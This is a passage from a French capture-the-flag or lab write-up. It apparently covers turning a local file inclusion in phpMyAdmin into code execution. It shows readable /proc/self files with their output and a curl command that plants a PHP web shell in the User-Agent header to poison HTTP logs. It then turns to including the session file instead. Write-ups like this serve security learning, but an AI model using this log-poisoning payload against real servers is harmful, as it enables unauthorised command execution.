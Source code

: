 ```python
```

J'avais des outputs de ce type :  

```plain
File /proc/self/cmdline is readable
/usr/sbin/httpd-DFO

File /proc/self/stat is readable
1877 (httpd) R 889 8

File /proc/self/status is readable
Name:   httpd
Umask:  0

File /proc/self/fd/2 is readable
[Sun Dec 26 12:12:01

File /proc/self/fd/6 is readable
192.168.56.1 - - [26

File /proc/self/fd/9 is readable
PMA_token |s:16:"(lX
```

*/proc/self/environ* n'est malheureusement pas accessible mais sur */proc/self/fd/6* on a les logs HTTP avec des entrées de ce type :  

```plain
192.168.56.1 - - [26/Dec/2021:12:52:55 +0000] "GET /index.php HTTP/1.1" 200 11414 "-" "python-requests/2.25.1"
```

Dans la logique il n'y a qu'à faire une requête avec un User-Agent spécial puis réinclure le fichier :  

```plain
curl -A '<?php system($_GET["cmd"]); ?>' http://datasafe.votenow.local/
```

C'est là où je me suis merdé et ait fermé une porte. Fuck! Il semble que le guillemet a été échappé ce qui causait une erreur de syntaxe à l'inclusion (que je pouvais ensuite voir sur la sortie d'erreur en incluant */proc/self/fd/2*).  

Dans ces cas là soit on trouve une astuce alternative soit on compte sur la rotation des logs pour corriger notre bétise (on peut attendre des heures, des jours ou éventuellement bourriner de requêtes selon la configuration de logrotate).  

Bourriner n'ayant pas fonctionné je me suis penché sur l'inclusion de */proc/self/fd/9* qui correspond vraisemblablement au fichier de session que l'exploit aurait du inclure.  

*phpMyAdmin* contient différentes fonctionnalités de personnalisation et j'ai testé différents réglages avant de croiser un paramètre qui se retrouvait effectivement dans la session.  

Finalement le titre de l'interface web est un bon candidat :  
